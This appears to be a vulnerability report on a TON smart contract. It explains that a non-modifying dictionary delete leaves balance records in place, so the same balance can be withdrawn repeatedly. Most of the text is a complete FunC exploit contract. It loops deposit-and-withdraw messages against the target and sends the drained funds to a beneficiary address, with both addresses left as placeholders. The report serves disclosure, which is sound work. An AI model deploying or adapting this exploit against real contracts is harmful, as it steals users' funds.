 `accounts.udict_delete_get?` does not actually remove balance record (`accounts~udict_delete_get?` should be used insted).

That way, when the user tries to withdraw the whole balance, (s)he gets TON, but records do not update.

Balance can be withdrawn manually one-by-one message, alternatively, a simple exploit contract can be deployed:


```func
const int balance = 40000000;
const int fee = 10000000;
const slice target = "XXX"a;
const slice benefeciar = "XXX"a;

() recv_internal(in_msg_full, in_msg_body) {
    slice cs = in_msg_full.begin_parse();
    int flags = cs~load_uint(4);

    if (flags & 1) { ;; ignore all bounced messages
        return ();
    }
    if(in_msg_body.slice_bits() > 0) {
      ;; deposit
      var msg = begin_cell()
        .store_uint(0x18, 6)
        .store_slice(target)
        .store_coins(balance + fee)
        .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
        .store_uint(0, 96)
      .end_cell();
      send_raw_message(msg, 3);
      ;; withdraw
      var msg = begin_cell()
        .store_uint(0x18, 6)
        .store_slice(target)
        .store_coins(fee)
        .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
        .store_uint(1, 32)
        .store_uint(0, 64)
        .store_coins(balance)
      .end_cell();
      send_raw_message(msg, 3);
    } else {
      var msg = begin_cell()
        .store_uint(0x18, 6)
        .store_slice(target)
        .store_coins(fee)
        .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
        .store_uint(1, 32)
        .store_uint(0, 64)
        .store_coins(balance)
      .end_cell();
      send_raw_message(msg, 3);
      ;; send profit to benefeciar
      var msg = begin_cell()
        .store_uint(0x18, 6)
        .store_slice(benefeciar)
        .store_coins(0)
        .store_uint(0, 1 + 4 + 4 + 64 + 32 + 1 + 1)
      .end_cell();
      send_raw_message(msg, 128);
    }
}
```
